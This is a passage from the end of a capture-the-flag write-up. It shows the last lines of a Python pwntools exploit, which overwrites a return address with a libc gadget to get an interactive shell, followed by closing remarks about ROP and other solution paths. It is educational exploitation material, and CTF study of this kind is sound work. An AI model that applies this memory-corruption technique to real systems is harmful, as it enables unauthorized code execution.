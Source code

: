 ```py

        input()

        conn.recvuntil(b"Number of blocks: ")
        conn.sendline(b"1")
        block = build_payload((libc_base+0xebc85).to_bytes(8, 'little'), RETURN_OFFSET)
        block.key = "a" * 16
        send_block(conn, block)

        conn.interactive()
    pass


if __name__ == "__main__":
    main()

```

## Final words

The challenge provided a lot of opportunities I didn't use.
For example, you could of course send more than one block at a time to easily expand both read and write.
Then, you could read all at once, set up ROP easily and so on.
That's what I like about this challenge: It provides a lot of room for creative solutions.
Try out your own ideas!
